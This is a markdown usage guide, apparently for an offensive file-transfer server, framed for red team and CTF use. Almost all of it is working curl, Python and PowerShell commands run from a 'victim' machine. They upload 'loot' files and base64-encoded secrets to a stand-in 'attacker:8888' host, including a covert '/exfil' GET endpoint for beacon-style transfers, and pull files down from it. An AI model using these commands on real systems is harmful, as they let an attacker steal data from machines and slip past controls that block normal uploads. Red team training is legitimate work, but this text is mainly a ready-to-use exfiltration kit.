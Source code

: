 
# FileTransferServer Usage Examples (Victim Perspective)

These examples demonstrate how to use the `FileTransferServer` from a target or victim machine to exfiltrate data, upload files, or download files during a red team operation, CTF, or offensive security assessment.

---

## Uploading Files via POST (multipart/form-data)

### curl (Linux/macOS/WSL)
```bash
curl -X POST http://attacker:8888/<route> -F "file=@/path/to/loot.txt"
```

### curl.exe (Windows 10/11)
```cmd
curl.exe -X POST http://attacker:8888/<route> -F "file=@C:\Users\victim\loot.txt"
```

### Python One-liner
```bash
python3 -c "import requests; requests.post('http://attacker:8888/<route>', files={'file': open('loot.txt','rb')})"
```

---

## Uploading Base64-Encoded Data via POST (JSON)

### Python
```python
import requests, base64

data = base64.b64encode(open('loot.txt','rb').read()).decode()
json_payload = {"filename": "loot.txt", "data": data}

requests.post("http://attacker:8888/<route>", json=json_payload)
```

### PowerShell
```powershell
$bytes = Get-Content -Path "C:\path\to\loot.txt" -Encoding Byte
$b64 = [Convert]::ToBase64String($bytes)
$json = @{ filename = "loot.txt"; data = $b64 } | ConvertTo-Json -Compress

Invoke-RestMethod -Uri "http://attacker:8888/<route>" -Method POST -Body $json -ContentType "application/json"
```

---

## Uploading Base64-Encoded Data via GET (/exfil endpoint)

### Python
```python
import base64, requests

data = b"This is secret exfil"
b64 = base64.b64encode(data).decode()
requests.get(f"http://attacker:8888/exfil?q={b64}&filename=secret.txt")
```

### PowerShell
```powershell
$bytes = [System.Text.Encoding]::UTF8.GetBytes("this is sensitive")
$b64 = [Convert]::ToBase64String($bytes)
Invoke-WebRequest "http://attacker:8888/exfil?q=$b64&filename=payload.txt"
```

---

## Downloading Files via GET

### curl (Linux/macOS/WSL)
```bash
curl http://attacker:8888/<route> -o downloaded.zip
```

### PowerShell
```powershell
Invoke-WebRequest -Uri "http://attacker:8888/<route>" -OutFile "downloaded.zip"
```

### Python
```python
import requests

resp = requests.get("http://attacker:8888/<route>")
open("received.bin", "wb").write(resp.content)
```

---

## Notes
- Replace `<route>` with the actual generated route path returned or printed by the `FileTransferServer`.
- Base64 endpoints (`encoded=True`) are useful for sending payloads covertly or when multipart requests are blocked.
- The `/exfil` route enables passive beacon-style data transfers via URL parameters.
